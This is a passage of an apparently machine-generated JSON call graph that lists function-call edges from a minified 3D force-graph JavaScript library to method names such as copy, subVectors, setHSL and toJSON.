"EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBarycoord"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBarycoord"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getInterpolation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBarycoord"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFrontFacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromPointsAndIndices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromAttributeAndIndices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMidpoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCoplanarPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBarycoord"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBarycoord"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getInterpolation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getInterpolation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFrontFacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFrontFacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsTriangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "closestPointToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toWorkingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toWorkingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toWorkingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setColorName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setColorName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copySRGBToLinear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copyLinearToSRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convertSRGBToLinear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copySRGBToLinear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convertLinearToSRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copyLinearToSRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromWorkingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromWorkingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromWorkingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromWorkingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "offsetHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerpColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerpHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setHSL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromVector3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "alphaTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "alphaTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeCompile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "customProgramCacheKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": 